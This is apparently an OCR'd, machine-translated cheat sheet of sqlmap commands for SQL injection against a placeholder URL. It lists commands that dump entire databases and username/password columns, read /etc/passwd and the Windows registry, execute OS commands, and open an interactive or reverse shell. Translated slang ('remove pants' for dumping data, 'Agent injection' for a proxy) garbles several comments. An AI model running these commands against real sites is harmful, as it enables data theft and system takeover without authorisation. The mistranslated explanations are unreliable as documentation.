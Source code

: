 ```
sqlmap -u "http://url/news?id=1" --dump-all --exclude-sysdbs -v 0 #list out all tables in the current library
sqlmap -u "http://url/news?id=1" --union-cols 				#union Query table record
sqlmap -u "http://url/news?id=1" --cookie "COOKIE_VALUE" 	#cookie injection
sqlmap -u "http://url/news?id=1" -b 						#Get banner information
sqlmap -u "http://url/news?id=1" --data "id=3" 				#postinjection
sqlmap -u "http://url/news?id=1" -v 1 -f 					#fingerprint database type
sqlmap -u "http://url/news?id=1" --proxy "http://127.0.0.1:8118" # Agent injection
sqlmap -u "http://url/news?id=1" --string "sTRING_ON_TRUE_PAGE" #specify keywords
sqlmap -u "http://url/news?id=1" --sql-shell 				#Execute the specified sql command
sqlmap -u "http://url/news?id=1" --file /etc/passwd
sqlmap -u "http://url/news?id=1" --os-cmd=whoami 			#Execute system commands
sqlmap -u "http://url/news?id=1" --os-shell					#system interactive shell
sqlmap -u "http://url/news?id=1" --os-pwn 					#bounce shell
sqlmap -u "http://url/news?id=1" --reg-read					# read win system registry
sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" 		# save the progress
sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" --resume # Restore saved progress
```

| -v parameter, level of detail, observe how sqlmap is trying to judge a point and read data

-----------------

**There are seven levels, the default is 1**
```
0, only show python errors and serious information.
 
1. Display basic information and warning information at the same time. (default)
 
2. Display debug information at the same time.
 
3. Display the injected payload at the same time.
 
4. Display HTTP requests at the same time.
 
5. Display the HTTP response header at the same time.
 
6. Display the HTTP response page at the same time.
```

**Use sqlmap to remove pants**

* The –dump parameter is used to remove the pants
* Add the whole -all (–dump-all) if you drag the whole
* specify the field specified in the specified table
```
sqlmap -u "http://xxx/index.php?id=1" --dump -D DBName -T TableName -C "id,username,password"

# Take off the entire pants:

sqlmap -u "http://xxx/index.php?id=1" -D DBName --dump-all
```
